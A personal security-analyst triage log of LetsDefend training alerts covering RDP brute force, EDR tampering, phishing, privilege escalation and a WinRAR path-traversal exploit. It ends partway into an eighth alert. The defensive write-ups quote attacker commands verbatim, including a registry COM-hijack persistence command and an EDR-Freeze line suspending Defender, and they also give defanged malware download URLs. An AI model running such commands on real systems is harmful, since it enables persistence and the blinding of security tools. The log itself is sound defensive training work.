# SOC Alert Triage Log

Every alert I've worked on LetsDefend, in order. Entries include alerts I classified incorrectly and what I learned from them.

**Format:** see [templates/triage-entry-template.md](templates/triage-entry-template.md)

---

<!-- Copy the template below this line for each new alert. Newest at the bottom. -->
## Alert #1 – SOC325 Unauthorized Cloud Region Access Attempt Detected
- **Date worked:** 2026-10-30
- **Severity:** Low
- **Alert type:** Web Attack
- **Hypothesis:** Traffic from a restricted region could be an attacker probing the server, or a legitimate user travelling/using a VPN.

**Evidence:**
- Alert: High volume of requests in a short time from 134[.]209[.]145[.]73 (India-located) to 52[.]15[.]206[.]21, a restricted region for this environment.
- Endpoint Security: Target host runs Linux (Ubuntu 20.04.2).
- Log Management: Attacker IP only communicated with 52[.]15[.]206[.]21, so the scope is limited to one host.
- Threat intel: Source IP reported on AbuseIPDB and VirusTotal for malicious activity, SSH abuse, phishing and brute force.

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** Known-malicious IP sending a burst of requests from a restricted region matches automated attack activity, not a legitimate user.
- **Recommended action:** Block source IP; monitor target host. No isolation, because there was no evidence the host was compromised.
- **MITRE ATT&CK:** T1535 – Unused/Unsupported Cloud Regions (per playbook); T1110 – Brute Force (per threat intel and request pattern)
- **Time taken:** 20 min
- **Platform feedback:** Score 25 (91%). Verdict correct. Missed the isolation question: I said Yes, correct was No.
- **Lessons learned:**
  - A malicious source IP makes it a True Positive, but isolation is only for evidence of successful compromise.
  - Check whether the attack actually succeeded before deciding on containment.
  - Some ATT&CK mappings on the platform are loose: T1535 normally means an attacker using a victim's unused cloud regions, not traffic from a restricted region.

---

## Alert #2 – SOC291 System Time Lookup Detected
- **Date worked:** 2026-11-01 (reinvestigated after first attempt)
- **Severity:** Low
- **Alert type:** Brute Force
- **Hypothesis:** Checking system time is often normal admin activity, but straight after a brute-force attempt it could be an attacker doing discovery.

**Evidence:**
- Alert: `net time \\EC2AMAZ-ILGVOIN` executed on host Campbell (172.16.17.213, Windows 10). L1 couldn't tell if it was a user or an attacker.
- Log Management: 7 RDP login attempts (port 3389) from 37[.]19[.]221[.]238 between 04:51:55 and 04:54:03. The first 6 failed (Event 4625, all verified); the 7th at 04:54:03 succeeded – Event ID 4624, user `LetsDefend`, Logon Type 10 (RDP).
- Endpoint Security: 10 discovery commands in ~3 minutes: whoami, whoami /groups, net user, hostname, net time, arp -a, ipconfig, ipconfig /all, netstat, tasklist /svc.
- Scope: Attacker IP only communicated with 172.16.17.213.
- Threat intel: 37[.]19[.]221[.]238 is a US VPN/web-hosting IP reported on AbuseIPDB for malware, brute force, SSH and malicious activity.
- Note: Log Management and terminal history timestamps differ by ~2 hours – likely a timezone offset, meaning discovery started ~1 minute after login.

**Timeline:**

| Time | Event |
|------|-------|
| 04:51:55–04:52:20 | 6 failed RDP login attempts from attacker IP (Event 4625) |
| 04:54:03 | Successful RDP login as `LetsDefend` (Event 4624, Type 10) |
| 06:55–06:58 (terminal time) | Discovery commands executed |

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** Repeated RDP attempts followed by a successful login and rapid discovery commands show a hands-on attacker, not a legitimate user. The IP's bad reputation supports this.
- **Recommended action:** Isolate host (attacker was already probing other machines via arp -a and net time); reset/disable the `LetsDefend` account; block the attacker IP; remove direct internet RDP exposure (VPN/RDP gateway); enforce MFA and account lockout; check host for persistence before restoring.
- **MITRE ATT&CK:**
  - Initial Access: T1133 External Remote Services; T1078 Valid Accounts
  - Credential Access: T1110 Brute Force
  - Execution: T1059.003 Windows Command Shell
  - Discovery: T1033 (whoami); T1069 (whoami /groups); T1087 (net user); T1082 (hostname); T1124 (net time); T1016 (arp, ipconfig); T1049 (netstat); T1057 (tasklist)
- **Time taken:** 13 min (platform timer, reinvestigation)
- **Platform feedback:** First attempt: 25 (92%), verdict and isolation correct, missed scope (said Yes, correct was No). Reinvestigation: 30 points (100%).
- **Lessons learned:**
  - Check Log Management for every destination IP before answering scope. Don't assume brute force means multiple hosts.
  - Prove compromise with Event IDs: 4625 = failed logon, 4624 = successful logon, Logon Type 10 = RDP.
  - Discovery commands map directly to ATT&CK techniques (whoami → T1033, net user → T1087, netstat → T1049).
  - Log sources can use different timezones. Align timestamps before building a timeline.

---

## Alert #3 – SOC344 EDR Tampering Attempt via EDR-Freeze
- **Date worked:** 2026-11-02
- **Severity:** High
- **Alert type:** Malware
- **Difficulty:** Medium
- **Hypothesis:** EDR-Freeze is a known tool for suspending security software. Combined with the L1 note of RDP brute force, this could be an attacker who got in and tried to blind the defences.

**Evidence:**
- Alert: `EDR-Freeze_1.0.exe 6080 10000` executed on WS-Prod-02 (172.16.20.69, Windows) from `C:\Users\LetsDefend\Downloads\`.
- Log Management (initial access): 4 failed RDP logons (Event 4625) from 212[.]8[.]243[.]56 between 12:59:43 and 13:00:02 UTC, trying usernames `admin` and `letsdefend`, then a successful logon at 13:00:08 (Event 4624, Logon Type 10, username recorded as `LetsDefendsuc`).
- Log Management (scope): Attacker IP communicated only with 172.16.20.69.
- Endpoint Security: Process chain `powershell.exe` → `EDR-Freeze_1.0.exe` (PID 1684) → `WerFaultSecure.exe /h /pid 6080 /tid 6076 ...` (PID 6648). PowerShell queried `github.com` (DNS) at 13:01:30 UTC and connected to GitHub IPs, so the tool was likely downloaded from GitHub. TightVNC server (`tvnserver.exe`) started at 13:02:15 during the attack.
- Threat intel: SHA256 970c7834…cd85f7 tagged **EDR-Freeze** in LetsDefend Threat Intel. Attacker IP: no match.
- Note: Log display time is 2 hours behind UtcTime; timeline below uses UTC.
- Logging gap: process logs only show `powershell.exe` launching, not the commands run inside it. PowerShell script block logging (Event 4104) would have captured them.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 12:59:43–13:00:02 | 4 failed RDP logons from attacker IP (Event 4625) |
| 13:00:08 | Successful RDP logon (Event 4624, Type 10) |
| 13:00:26 | PowerShell launched |
| 13:01:30 | PowerShell connects to GitHub (likely tool download) |
| 13:02:15 | TightVNC server starts |
| 13:03:28 | EDR-Freeze runs; WerFaultSecure suspends PID 6080 (Microsoft Defender) for 10 seconds |

**Screenshots:**



*4 failed RDP logons (4625) then a successful logon (4624, Type 10) from 212[.]8[.]243[.]56.*

*PowerShell (PID 8) queried github.com and connected to 140[.]82[.]113[.]4 at 13:01:30 UTC, shortly before EDR-Freeze appeared in Downloads.*



*PowerShell launched EDR-Freeze (PID 1684), which launched WerFaultSecure (PID 6648). TightVNC started a minute earlier.*



*WerFaultSecure invoked against PID 6080 (Microsoft Defender), suspending it for 10 seconds.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** RDP brute force followed by a successful logon, then within about 3 minutes the attacker used EDR-Freeze to abuse WerFaultSecure and suspend Microsoft Defender. Deliberately disabling defences straight after gaining access shows a hands-on, prepared attacker. Confirmed compromise.
- **Recommended action:** Isolate host; disable/reset the `LetsDefend` account; block 212[.]8[.]243[.]56; remove direct internet RDP exposure and enforce MFA and account lockout; verify Defender health; remove EDR-Freeze and investigate TightVNC as a possible backdoor; check for persistence before restoring.
- **MITRE ATT&CK:**
  - Initial Access: T1078 Valid Accounts
  - Credential Access: T1110 Brute Force
  - Execution: T1059.001 PowerShell
  - Defense Evasion: T1562.001 Impair Defenses – Disable or Modify Tools
- **Time taken:** 30 Min
- **Platform feedback:** 30 points (100%). All answers correct.
- **Lessons learned:**
  - Isolation is based on confirmed compromise.
  - T1562 Impair Defenses describes the effect (security tools stopped); Hijack Execution Flow means running attacker code inside a legitimate program.
  - GitHub IPs are legitimate infrastructure, so don't list them as malicious IOCs.
  - Match hashes to their type: MD5 = 32 characters, SHA256 = 64.

---

## Alert #4 – SOC228 ZeroFont Phishing Detected
- **Date worked:** 2026-11-03
- **Severity:** High
- **Alert type:** Exchange (Phishing)
- **Difficulty:** Hard
- **Hypothesis:** An email that bypassed mail security using ZeroFont is likely phishing. The key questions are whether the user clicked, and whether anything ran.

**Evidence:**
- Email Security: From `noreply[@]googleone[.]com` to elliot@letsdefend.io, subject "You're Out of Storage And May Not Receive New mails!", delivered at 05:02 (Device Action: Allowed). SMTP source 206[.]189[.]190[.]128. Header shows a different Sender IP (172.16.17.241).
- Email content: Impersonates Google One with an urgent "Gmail is full" lure. The "Get More Space" button links to a zip on Amazon S3. `googleone.com` is a lookalike domain; real Google One emails come from google.com. ZeroFont (hidden zero-size text) used to evade the mail filter.
- Threat intel: Download URL flagged as malicious / malware in LetsDefend Threat Intel.
- Endpoint – Browser History: User accessed `hxxps://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/static/Order_Spesification.zip` at 07:22, about 20 minutes after delivery.
- Endpoint – Execution check: Processes after 07:22 show only legitimate activity (GoogleUpdate from Program Files, services.exe/UsoSvc, explorer.exe via userinit). No terminal commands.
- Endpoint – Network: Connections after the download go only to Google, Microsoft, internal and cloud metadata addresses. 35[.]209[.]92[.]19 (Google Cloud range) had no TI match and lines up with Google Update traffic.
- Log Management: No proxy log for the download, so it only appears in endpoint Browser History. Possible proxy logging gap.
- Scope: Only one recipient. The same S3 bucket appears in several earlier, unrelated malware incidents (e.g. `blackcat.bin.zip`), so it's a repeat malware source.

**Timeline:**

| Time | Event |
|------|-------|
| 05:02 | Phishing email delivered to Elliot (Allowed) |
| 07:22 | User downloads `Order_Spesification.zip` from the S3 bucket |
| 07:22 onwards | No malicious processes, commands or C2 traffic observed |

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** Lookalike sender domain, urgency lure and ZeroFont evasion delivered a link to a known-malicious zip, which the user downloaded. No evidence of execution, but malware is confirmed on the host.
- **Recommended action:** Delete the email from the mailbox; isolate the host as a precaution (malware on disk, execution can't be ruled out); remove the zip and run a full scan before release; block `googleone.com`, 206[.]189[.]190[.]128 and the `files-ld` S3 subdomain (not all of amazonaws.com); tune the email gateway for ZeroFont and lookalike domains; enable link rewriting/sandboxing; follow up with the user and run phishing awareness training.
- **MITRE ATT&CK:**
  - Initial Access: T1566.002 Phishing – Spearphishing Link
  - Execution: T1204.001 User Execution – Malicious Link (user clicked and downloaded)
  - Defense Evasion: T1027 Obfuscated Files or Information (ZeroFont)
- **Time taken:** 27 Min
- **Platform feedback:** 25 points (100%). All answers correct.
- **Lessons learned:**
  - Clicking a link isn't the same as running the file. Check processes, commands and network separately before deciding what happened.
  - Malware confirmed on disk with execution not ruled out is enough to isolate as a precaution.
  - When sources disagree (Browser History shows the download, proxy logs don't), say which source you relied on and note the gap.
  - Search results can include unrelated incidents. Filter by date and host before drawing conclusions about scope.
  - Block the specific malicious subdomain, not a whole cloud provider.

---

## Alert #5 – SOC335 CVE-2024-49138 Exploitation Detected
- **Date worked:** 2026-11-04
- **Severity:** Medium
- **Alert type:** Privilege Escalation
- **Difficulty:** Medium
- **Hypothesis:** A process named `svohost.exe` (lookalike of svchost.exe) running from `C:\temp` is likely an exploit, not a system process. The key question is whether the attacker reached SYSTEM.

**Evidence:**
- Alert: `svohost.exe` from `C:\temp\service_installer\` on host Victor (172.16.17.207, Windows 10), run by `LetsDefend`, parent `powershell.exe`, Device Action: Allowed.
- Log Management: RDP brute force from 185[.]107[.]56[.]141 – 4 failed logons (Event 4625, usernames `admin` and `guest`) then a successful logon at 11:35:50 UTC (Event 4624, Logon Type 10, username `Victor`). Attacker IP reached no other hosts.
- Endpoint – Terminal History: `whoami /priv` and `whoami` to check privileges, then a PowerShell one-liner that downloaded `service-installer.zip` from `hxxps://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com`, extracted it with 7-Zip using the password "infected", deleted the zip and ran `svohost.exe`. A second `whoami` followed.
- Endpoint – Processes: `svohost.exe` spawned `powershell.exe` (PID 6528) running as **NT AUTHORITY\SYSTEM**, which ran `whoami`, confirming successful escalation.
- Endpoint – Network: Connection to Amazon S3 (52.219.102.138) at the time of the download; otherwise only Microsoft/CDN (Defender activity), internal and cloud metadata traffic. No C2 or exfiltration seen.
- Threat intel: Attacker IP tagged **Brute Force**; file hash tagged **CVE-2024-49138** (30/72 on VirusTotal per platform feedback).
- Note: Log Management is in UTC; Terminal History is UTC+3.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 11:35:43–11:35:48 | 4 failed RDP logons (4625) from attacker IP |
| 11:35:50 | Successful RDP logon as `Victor` (4624, Type 10) |
| 11:36:06 | PowerShell launched |
| 11:36:26–11:36:38 | `whoami /priv`, `whoami` – privilege check |
| 11:37:10 | Exploit downloaded from S3, extracted, zip deleted, `svohost.exe` run |
| 11:37:59 | Exploit spawns PowerShell as SYSTEM; `whoami` confirms |

**Screenshots:**



*4 failed RDP logons (usernames admin, guest) then a successful logon as Victor (4624, Type 10) from 185[.]107[.]56[.]141.*



*Privilege checks (`whoami /priv`, `whoami`), the exploit download and run, then a second `whoami` to confirm the result. Times are UTC+3.*



*Before: svohost.exe (CVE-2024-49138 exploit) launched by PowerShell from C:\temp, running as the normal user Victor.*



*After: the exploit spawned PowerShell running as NT AUTHORITY\SYSTEM, which ran whoami. Escalation confirmed.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** RDP brute force led to a successful logon, and within 2 minutes the attacker downloaded and ran a CVE-2024-49138 exploit, gaining NT AUTHORITY\SYSTEM. Full control of the host.
- **Recommended action:** Isolate host (SYSTEM compromise – host can't be trusted); reset credentials for `Victor`, `LetsDefend` and any account used on the host; rebuild the host; block 185[.]107[.]56[.]141 and the `files-ld` S3 subdomain; patch CVE-2024-49138 on all Windows hosts; hunt for the exploit hash elsewhere; remove internet-facing RDP; enforce MFA and account lockout.
- **MITRE ATT&CK:**
  - Initial Access: T1078 Valid Accounts
  - Credential Access: T1110 Brute Force
  - Execution: T1059.001 PowerShell
  - Command and Control: T1105 Ingress Tool Transfer (exploit download)
  - Defense Evasion: T1036.005 Masquerading (`svohost.exe`); T1027 Obfuscated Files (password-protected zip); T1070.004 File Deletion (zip removed)
  - Discovery: T1033 System Owner/User Discovery (`whoami`)
  - Privilege Escalation: T1068 Exploitation for Privilege Escalation
- **Time taken:** 18 Min
- **Platform feedback:** 15 points (100%). All answers correct.
- **Lessons learned:**
  - Proof of privilege escalation is a process running as SYSTEM whose parent is the exploit. The attacker's own `whoami` is a useful timestamp to look for.
  - Lookalike names apply to files as well as domains: `svohost.exe` in `C:\temp` isn't `svchost.exe` in System32.
  - "Antivirus was running" isn't the same as "antivirus stopped it". Look for evidence of the block.
  - A local privilege escalation exploit doesn't need C2. LetsDefend called the download server "C2", but it's really a staging server.
  - After a SYSTEM-level compromise, rebuild the host and reset every credential used on it.

---

## Alert #6 – SOC246 Forced Authentication Detected
- **Date worked:** 2026-11-05
- **Severity:** Medium
- **Alert type:** Web Attack
- **Difficulty:** Easy
- **Hypothesis:** Many POST requests from one IP to a login page suggests a brute force attempt. The host name "WebServer_Test" made me consider authorised testing, so I needed to rule out a planned test.

**Evidence:**
- Alert: Multiple POST requests from 120[.]48[.]36[.]175 to `http://test-frontend.letsdefend.io/accounts/login` on host WebServer_Test (104.26.15.61). Device Action: Permitted.
- Log Management – Firewall: Port scan from 10:50:44 to 11:02:57 UTC against at least 10 ports (21, 22, 23, 25, 53, 80, 110, 443, 3000, 3389). Only 80 and 3000 permitted; the rest denied.
- Log Management – Proxy: Dictionary attack on the login page from 11:05:34 to 11:15:48 UTC, with at least 11 attempts roughly one per minute using common usernames (root, admin, test, guest, info, adm, mysql, user, administrator) and common wordlist passwords (123456, 12345, iloveyou, princess, rockyou, abc123, abcd12345). Same User-Agent throughout (Firefox 78, Windows 10).
- Log Management – OS: "User Login Successful" for `admin` at 11:15:48 UTC, the same second as the `admin` / `password` attempt.
- Post-login: No further activity from the attacker IP after 11:15:48 in available logs.
- Scope: Attacker IP only targeted 104.26.15.61.
- Planned test check: Searched Email Security for the source IP, host name and domain – no notice of planned testing found. Source is an external IP, not an attack simulation product.
- Threat intel: No match for 120[.]48[.]36[.]175 in platform Threat Intel; located in China per playbook feedback.
- Note: The login page uses plain HTTP (port 80), so credentials were sent unencrypted and are visible in proxy logs.
- Note: Logs are in UTC; the OS log text ("02:15 PM") matches the alert time at UTC+3.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 10:50:44–11:02:57 | Port scan of at least 10 ports; 80 and 3000 permitted |
| 11:05:34 | First login attempt (`root` / `123456`) |
| 11:05:34–11:14:18 | Repeated failed attempts with common usernames and passwords |
| 11:15:48 | Successful login as `admin` / `password` |
| After 11:15:48 | No further activity observed |

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** Port scan followed by a wordlist attack on the login page, ending in a successful admin login. No evidence of authorised testing despite the "Test" host name.
- **Recommended action:** Escalate to Tier 2 (admin account compromised); reset the `admin` password and terminate its active sessions; block 120[.]48[.]36[.]175; review the app for any changes made by the admin account; enable HTTPS on the login page; add rate limiting / WAF rules and account lockout on `/accounts/login`; enforce MFA; rename or disable default usernames and ban common passwords; close unnecessary internet-facing ports (e.g. 3000). No host isolation, because there's no evidence the server itself was compromised.
- **MITRE ATT&CK:**
  - Discovery: T1046 Network Service Discovery (port scan)
  - Credential Access: T1110.001 Brute Force – Password Guessing
  - Initial Access: T1078 Valid Accounts (successful admin login)
  - Note: The platform tagged T1187 Forced Authentication, but the evidence fits brute force.
- **Time taken:** 20 min
- **Platform feedback:** 30 points (100%). All answers correct. Platform classified the attack type as "Other" – OWASP Broken Authentication (A07:2021 Identification and Authentication Failures).
- **Lessons learned:**
  - The port scan came first: the attacker checked which services were open, then attacked the one that was (the web login on port 80).
  - Web logins don't produce Event 4624. I confirmed success from the "User Login Successful" log matching the exact second of the last attempt.
  - The alert's ATT&CK tag didn't match the evidence. I map techniques from what the logs show, not from the label.
  - A "Test" host name isn't proof of a planned test. I checked the mailbox for planned work before ruling out a false positive.
  - A login page on plain HTTP exposes passwords in transit, which is a finding in itself.
  - For web attacks, the question is escalation rather than isolation: escalate when the attack succeeded.

---

## Alert #7 – SOC343 WinRAR Zero-Day Path Traversal Vulnerability (CVE-2025-8088)
- **Date worked:** 2026-11-06
- **Severity:** Critical
- **Alert type:** Malware
- **Difficulty:** Medium
- **Hypothesis:** WinRAR writing to a temp folder can be normal when opening a file from an archive, but writing to the Startup folder is not. Combined with an email attachment and a DLL named after Edge sitting in Temp, this looked like the CVE-2025-8088 exploit being used for persistence.

**Evidence:**
- Email Security: From `2constheatcomshirl[@]seznam[.]cz` to stewart@letsdefend.io, subject "Experienced Web3 Developer – CV Attached for Consideration", attachment `Eli_Rosenfeld_CV2 - Copy (10).rar`, Action: Allowed. Throwaway free-mail address that doesn't match the sender's claimed name (Eli Rosenfeld). Only one recipient.
- Log Management – delivery: Chrome saved the archive at 20:30:46 UTC (Sysmon 11) as `eli-rosenfeld-cv2-copy-10.rar` (3,631,539 bytes).
- Log Management – exploitation: WinRAR started at 20:31:11 UTC and created three files at 20:31:28 UTC (Sysmon 11), two of them outside the extraction folder:
  - `C:\Users\LetsDefend\Downloads\Eli_Rosenfeld_CV.pdf` (decoy)
  - `C:\Users\LetsDefend\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Updater.lnk` (persistence)
  - `C:\Users\LetsDefend\AppData\Local\Temp\msedge.dll` (payload, masquerading as Edge)
- Endpoint – persistence triggered: A new logon session started at 20:36:10 UTC. At 20:36:26, one second after `explorer.exe` started, `cmd.exe` (parent `explorer.exe`) ran `reg add "HKCU\SOFTWARE\Classes\CLSID\{1299CF18-C4F5-4B6A-BB0F-2299F0398E27}\InprocServer32" /ve /t REG_SZ /d "C:\Users\LETSDE~1\AppData\Local\Temp\2\msedge.dll" /f`. Sysmon Event 13 (Registry Set Value) confirms the COM hijack was written. No further processes after this.
- Endpoint verification (live machine): `Updater.lnk` (2,034 bytes) and `Temp\msedge.dll` (723,136 bytes) present. At my own logon, `Updater.lnk` ran again and rewrote the registry to `Temp\1\msedge.dll`. No DLL exists at `Temp\1` or `Temp\2`, so the hijack points to a path that doesn't exist and the payload likely never loaded. The persistence was still active.
- DLL loading: No Sysmon Event 7 (Image Loaded) for `msedge.dll`, though image-load events may not be collected.
- Network: Connections after the exploit were consistent with WinRAR's own servers (51[.]195[.]68[.]167, one second after WinRAR started), Google, Microsoft and cloud metadata. 23[.]22[.]16[.]1 (AWS) had no Threat Intel match. No C2 identified.
- Threat intel: File hash E0CBE8F1…C894 tagged **ROMCOM, CVE-2025-8088** (OnlyHunt).
- Scope: One recipient, one host. The 2023 WinRAR events on host 172.16.17.59 (user Audrey, `DEFCON2023.rar`) are a separate incident.
- Note: Log display time is 2 hours behind UTC; the timeline uses UTC.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 20:30:08–20:30:35 | User logon; Chrome opened |
| 20:30:46 | RAR archive saved to Downloads |
| 20:31:11 | WinRAR opens the archive |
| 20:31:28 | Decoy PDF, `msedge.dll` (Temp) and `Updater.lnk` (Startup) created |
| 20:36:10–20:36:25 | New logon session; Explorer starts |
| 20:36:26 | `Updater.lnk` runs `cmd.exe /c reg add …` – COM hijack written (Sysmon 13) |
| Investigation | Persistence re-ran at my logon; files, registry key and archive removed and verified |

**Screenshots:**



*Chrome downloads the RAR, WinRAR opens it and creates three files, then cmd.exe and the registry change follow at logon.*



*Path traversal: a decoy CV in Downloads, Updater.lnk in the Startup folder and msedge.dll in Temp – two of them outside the extraction folder.*



*Updater.lnk ran reg add to point a COM component (InprocServer32) at msedge.dll.*



*On the live machine: persistence files present, and the registry rewritten to Temp\1 at my logon, where no DLL exists.*



*Updater.lnk, msedge.dll, the registry key and the Downloads files all confirmed removed.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** A fake CV email delivered a RAR archive that exploited CVE-2025-8088 to write files outside the extraction folder, including a Startup item. At the next logon it registered a COM hijack pointing at a malicious DLL (confirmed by Sysmon 13). Hash tagged ROMCOM in Threat Intel.
- **Recommended action:** Isolate host; remove `Updater.lnk`, `msedge.dll`, the COM hijack registry key, the archive and the decoy (done and verified); update WinRAR to 7.13 or later on all hosts; delete the email and block the sender address (not all of seznam.cz); hunt for the file hash, `Updater.lnk` in Startup folders and the CLSID key on other hosts; precautionary password reset; warn HR and hiring staff about CV lures and archive attachments; consider sandboxing archive attachments from external senders.
- **MITRE ATT&CK:**
  - Initial Access: T1566.001 Phishing – Spearphishing Attachment
  - Execution: T1204.002 User Execution – Malicious File; T1203 Exploitation for Client Execution; T1059.003 Windows Command Shell
  - Persistence: T1547.001 Startup Folder; T1546.015 Component Object Model Hijacking
  - Defense Evasion: T1036 Masquerading (`msedge.dll`, `Updater.lnk`, decoy CV)
- **Time taken:** 58 min
- **Platform feedback:** 40 points (100%). All answers correct. Malware type: Trojan; initial access: Phishing; C2: Not Accessed; malware not quarantined.
- **Lessons learned:**
  - The exploit's purpose was persistence, not immediate damage. Following the chain from file creation to logon to registry change showed how it was meant to work.
  - The command line shows what was attempted; Sysmon Event 13 proves the registry change actually happened.
  - Checking the live machine answered a question the logs couldn't: the registry pointed to a per-session Temp folder where the DLL didn't exist, so the payload likely never loaded.
  - "Persistence in place" and "payload executed" are different findings. I reported what was confirmed and what wasn't.
  - Capture evidence before deleting anything, then verify the cleanup.
  - Filter old incidents out of the scope (the 2023 WinRAR events were a different host and attack).

---

## Alert #8 – SOC336 Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)
- **Date worked:** 2026-11-07
- **Severity:** Critical
- **Alert type:** Malware
- **Difficulty:** Medium
- **Hypothesis:** An RTF attachment matching a zero-click OLE exploit could run code just by being previewed in Outlook. The key question was whether Outlook launched anything after the email arrived.

**Evidence:**
- Email Security: From `projectmanagement[@]pm[.]me` (anonymous Proton Mail address) to Austin@letsdefend.io, subject "Important: Action Required for Upcoming Project Deadline", attachment `mail.rtf`, sender IP 84[.]38[.]130[.]118, Action: Allowed. Only one recipient.
